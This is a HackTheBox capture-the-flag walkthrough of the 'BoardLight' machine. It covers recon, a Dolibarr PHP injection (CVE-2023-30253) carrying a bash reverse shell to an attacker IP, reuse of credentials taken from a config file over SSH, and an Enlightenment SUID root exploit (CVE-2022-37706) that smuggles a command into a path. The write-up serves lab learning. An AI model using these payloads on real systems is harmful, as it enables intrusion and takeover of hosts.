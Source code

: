 # 🦋 HTB: BoardLight

**Machine Info:**
- **Platform**: [HackTheBox](https://www.hackthebox.com)  
- **IP**: `10.10.11.11`  
- **OS**: Ubuntu 20.04 LTS  
- **Difficulty**: Easy  
- **Exploits Used**:
  - Default Dolibarr credentials 🆔  
  - PHP code injection via **CVE-2023-30253** 🔓  
  - SSH login with config‐extracted creds 🔑  
  - Local root via **CVE-2022-37706** (Enlightenment WM) 👑  

---

## 🕵️ Recon

```bash
# Fast full-port scan + default scripts
nmap -p- --min-rate 10000 10.10.11.11 -oA nmap/boardlight
nmap -p 22,80 -sC -sV 10.10.11.11 -oA nmap/boardlight-tcp
```

- **SSH** (22)  
- **HTTP** (80) → Apache 2.4.41 on Ubuntu  
- Webroot hosts **Dolibarr v17.0.0** at `crm.board.htb`

```bash
# Directory / subdomain fuzzing
feroxbuster -u http://10.10.11.11 -x php
ffuf -u http://10.10.11.11 -H "Host: FUZZ.board.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all
# → found crm.board.htb
```

---

## 💥 Foothold as www‑data

### 1. Login to Dolibarr CRM

- Browse to http://crm.board.htb/
- **Default creds**: `admin` / `admin`

### 2. Identify PHP injection (CVE-2023-30253)

- Create a new **Website → Page**  
- Save content containing `<?Php phpinfo(); ?>`  
- “Show dynamic content” toggle must be enabled to execute

### 3. Get reverse shell

```php
<?Php
  system('bash -i >& /dev/tcp/10.10.14.6/443 0>&1');
?>
```

- Save & preview → shell lands as `www-data` on port 443  

```bash
# Upgrade shell
script /dev/null -c bash
```

---

## 🐚 Pivot as larissa

### 1. Dolibarr config reveals DB creds

```php
# /var/www/html/crm.board.htb/htdocs/conf/conf.php
$dolibarr_main_db_user = 'dolibarrowner';
$dolibarr_main_db_pass = 'serverfun2$2023!!';
```

### 2. SSH as larissa

```bash
sshpass -p 'serverfun2$2023!!' ssh larissa@board.htb
```

- **User flag**:

```bash
cat ~/user.txt
# cbcdd575************************
```

---

## 🚀 Privilege Escalation to root

### 1. Enumerate SUID binaries

```bash
find / -perm -4000 2>/dev/null | grep enlightenment_sys
# /usr/lib/.../enlightenment_sys (setuid root)
```

### 2. Exploit CVE-2022-37706

```bash
# Prepare payload
mkdir -p /tmp/net "/tmp/;/tmp/pwn"
echo "/bin/bash" > /tmp/pwn
chmod +x /tmp/pwn

# Trigger command injection
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys \
  /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u) \
  "/dev/../tmp/;/tmp/pwn" /tmp/net
```

- Spawns **root** shell:

```bash
root@boardlight:/home/larissa# cat /root/root.txt
# 5f53a104************************
```

---

## 🎉 Results

- **www‑data shell**  
- **larissa flag**: `cbcdd575************************`  
- **root flag**:    `5f53a104************************`  

---

## 🛠 Tools & References

- **SMB & SSH**: `nmap`, `sshpass`, `feroxbuster`, `ffuf`  
- **Dolibarr**: Default creds + page editor  
- **CVE-2023-30253**: PHP injection in Dolibarr → [Swascan writeup](https://swascan.com/blog-dolibarr-vulnerabilities/)  
- **CVE-2022-37706**: Enlightenment WM → [GitHub POC](https://github.com/phra/Enlightenment-CVE-2022-37706-poc)  
